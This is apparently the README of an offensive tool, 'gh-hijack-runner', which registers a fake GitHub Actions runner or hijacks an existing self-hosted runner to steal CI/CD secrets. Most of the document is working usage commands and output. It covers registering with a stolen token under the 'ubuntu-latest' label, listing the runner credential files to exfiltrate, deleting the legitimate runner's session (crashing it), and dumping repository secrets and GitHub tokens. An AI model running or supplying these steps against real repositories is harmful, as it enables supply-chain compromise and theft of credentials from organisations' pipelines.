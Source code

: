 # gh-hijack-runner

A python script to create a fake GitHub runner and hijack pipeline jobs to leak CI/CD secrets.

## Exploitation

If you can obtain a registration token or achieve remote code execution on a self-hosted GitHub runner, you can either create or take over a GitHub runner. This will enable you to access all the secrets passed to that runner.

Using a registration token, you can register a runner labeled `ubuntu-latest`, gaining access to jobs originally intended for GitHub-provisioned runners. This allows you to compromise any workflow using this method.

```shell
$ gh-hijack-runner.py --registration-token AOTAA3QWE1A5QB6JFECOKQDGEVOVC --url https://github.com/syncicd/CICD --labels ubuntu-latest
[+] Session ID: b66b76a8-e7db-4a14-a2ea-207b1c8cb94d
[+] AES key: BTIk+FT2hRb[...]HN1kkg==
[+] New Job: init (messageId=2)
- REPO_SECRET: repo secret
- SUPER_SECRET: super secret password
- system.github.token: ghs_RqDY21GqZ0OYvM8ImVpAB0B9o7TBQR4Dq2HC
```

## Install

```sh
$ pip install -r requirements.txt 
```

## Usage

### From a registration token

If you manage to get a registration token to register a self-hosted runner for a repo or an organization you can register the fake GitHub runner with this command:

```shell
$ gh-hijack-runner.py --registration-token AOTAA3QWE1A5QB6JFECOKQDGEVOVC --url https://github.com/syncicd/CICD --labels ubuntu-latest
```

### From credentials of an existing GitHub runner

With arbitrary code execution on a self-hosted runner, you need to exfiltrate three files to assume the identity of the compromised runner:
```shell
root@9f8f6f1fdfa6:/actions-runner# pwd
/actions-runner
root@9f8f6f1fdfa6:/actions-runner# ll
-rw-r--r-- 1 root   root     266 Apr 21 12:27 .credentials
-rw------- 1 root   root    1667 Apr 21 12:27 .credentials_rsaparams
-rw-r--r-- 1 root   root     325 Apr 21 12:27 .runner
[...]
```

To fetch jobs, the runner will establish a session with GitHub. Each runner can only maintain one session. To create a new session, you need to delete the current session established by the legitimate runner. The session ID can be found here:
```shell
root@9f8f6f1fdfa6:/actions-runner# cat _diag/* | grep -i session
[...]
[2024-04-21 18:03:46Z INFO MessageListener] Message '5' received from session 'aab007e0-eedd-4c1b-96b4-a7c2c128c31a'.
```

**/!\\ Deleting the current session will crash the legitimate runner /!\\**

Then, you can delete the current session:
```sh
$ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json --delete-session-id aab007e0-eedd-4c1b-96b4-a7c2c128c31a
[+] Session aab007e0-eedd-4c1b-96b4-a7c2c128c31a.
```

Finally you can hijack this runner:
```sh
$ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json                                                         
[+] Session ID: 3c88c6f7-5764-4121-b9bf-2536ee2539b7
[+] AES key: eLN3rhf3D[...]UHewLw==
[+] New Job: init (messageId=2)
- REPO_SECRET: repo secret
- SUPER_SECRET: super secret password
- system.github.token: ghs_RqDY23GqZ0OYvM8ImVpAB0B9o7TBQR4Dq2HC
```

Note that for ephemeral self-hosted runner this won't work.

### Help

```sh
$ gh-hijack-runner.py --help
Hijack GitHub runners                

Usage:
    gh-hijack-runner.py [options] --registration-token <token> --url <url> [--labels <labels> --ephemeral --rsa-params <rsa> --credentials <credentials> --runner <runner>]
    gh-hijack-runner.py [options] --rsa-params <rsa> --credentials <credentials> --runner <runner> [(--session-id <session> --aes-key <key>)]
    gh-hijack-runner.py [options] --rsa-params <rsa> --credentials <credentials> --runner <runner> --delete-session-id <session>
    

Options:
    -h --help                               Show this screen.
    --version                               Show version.
    -v, --verbose                           Verbose mode
    --output <folder>                       Save data to output file
    --runer-name <name>                     Runner name
    --runner-group <name>                   Runner group name
    --last-Message-id <id>                  Last message ID

Args:
    --registration-token <token>            Token used to register a runner
    --url <url>                             Full repository or org URL
    --rsa-params <rsa>                      Path to .credentials_rsaparams file
    --credentials <credentials>             Path to .credentials file
    --runner <runner>                       Path to .runner file
    --session-id <session>                  Already running session id
    --aes-key <key>                         Base64 encoded AES key associated with a session id
    --labels <labels>                       Labels used for registration (ubuntu-latest,customrunner)
    --ephemeral                             Create ephemeral runner
    --delete-session-id <session>           Delete session. Warning: It will crash the related GitHub runner
    

Examples:
    $ gh-hijack-runner.py --registration-token AOTAA3TOI7SACAVKBDWEQN3F5IEO2 --url https://github.com/org/repo
    $ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json

Author: @hugow

```

## Credits

- [@karimpwnz](https://twitter.com/karimpwnz) for the [crypto](https://karimrahal.com/2023/01/05/github-actions-leaking-secrets/)
- [@0xn3va](https://twitter.com/0xn3va) for the [session deletion](https://0xn3va.gitbook.io/cheat-sheets/ci-cd/github/actions#misuse-of-self-hosted-runners) part
- [@frichette_n](https://twitter.com/frichette_n) for the [original idea](https://github.com/Frichetten/gitlab-runner-research) on GitLab